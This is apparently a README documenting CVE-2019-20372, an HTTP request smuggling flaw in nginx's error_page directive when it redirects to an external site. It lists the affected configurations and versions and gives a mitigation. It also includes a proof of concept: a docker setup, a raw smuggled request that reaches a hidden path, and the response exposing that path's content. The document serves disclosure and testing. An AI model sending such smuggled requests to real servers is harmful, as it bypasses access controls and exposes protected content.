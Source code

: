 # CVE-2019-20372

Allow HTTP Request Smuggling when redirect to an external site using `error_page` directive in nginx.

Affected configuration is as follows

```nginx
error_page 403 https://error.example.com/403.htm;
error_page 404 https://error.example.com/404.htm;
```

Other configuration of the `error_page` are NOT affected.

```nginx
error_page 404 /404.html;
error_page 404 @404;
```

## Affected Version

nginx

- 1.8.1
- 1.9.5
- 1.14.1
- 1.14.2
- 1.15.9
- 1.16.1
- 1.17.6

## Mitigation

Use a named location instead of having the error_page handler do the redirect.

```nginx
server {
  listen 80;
  server_name localhost;
  error_page 401 @401;

  location / {
    return 401;
  }

  location @401 {
    return 302 http://error.example.org;
  }
}
```

## PoC

```shell
$ docker run -it --rm -p 80:80 -v (pwd)/default.conf:/etc/nginx/conf.d/default.conf nginx:1.17.6
```

### Request

```
GET /a HTTP/1.1
Host: localhost
Content-Length: 56

GET /_hidden/index.html HTTP/1.1
Host: notlocalhost


```

### Response

```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Tue, 14 Jan 2020 02:26:14 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org

<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Tue, 14 Jan 2020 02:26:14 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive

This should be hidden!
```

## References

- https://bertjwregeer.keybase.pub/2019-12-10%20-%20error_page%20request%20smuggling.pdf
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20372
